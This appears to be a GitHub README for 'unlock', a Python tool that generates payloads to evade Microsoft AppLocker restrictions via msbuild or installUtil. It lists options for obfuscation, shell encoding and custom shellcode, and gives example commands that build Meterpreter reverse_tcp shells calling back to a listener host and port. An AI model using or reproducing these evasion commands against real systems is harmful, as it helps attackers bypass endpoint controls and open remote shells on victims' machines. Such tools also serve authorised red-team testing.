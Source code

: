 # unlock
Microsoft Applocker evasion tool

Unlock aims to be an easy tool for generating payloads which can bypass MS applocker restriction.
The code is heavily based on subtee work.

## Usage

unlock.py [-h] [--output FILENAME] [--framework FWV]  
               [--payload PAYLOAD] [--lhost LHOST] [--lport LPORT]  
               [--method METHOD] [--enaobf] [--encshell ENCSHELL]  
               [--custom CUSTOM] [--x64]  

##Arguments:
--output FILENAME   Output file name without extension  
--framework FWV      Framework NET version  
--payload PAYLOAD    Payload in MSF syntax  
--lhost LHOST        Local host for reverse shell  
--lport LPORT        Local port for reverse shell  
--method METHOD      Evasion method: msbuild or installUtil  
--enaobf             Enable CS code obfuscation  
--encshell ENCSHELL  Encode shell with: *date* or hostname  
--custom CUSTOM      Custom binary payload (don't use with --payload/--lhost/--lport  
--x64                set if your custom payload is x64  

## Examples
- python unlock.py --framework 4.0 --payload windows/x64/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method installUtil  
- python unlock.py --framework 4.0 --payload windows/meterpreter/reverse_tcp --lhost 192.168.0.1 --lport 4444 --method msbuild  
- python unlock.py --framework 4.0 --custom shellcode.bin --x64  
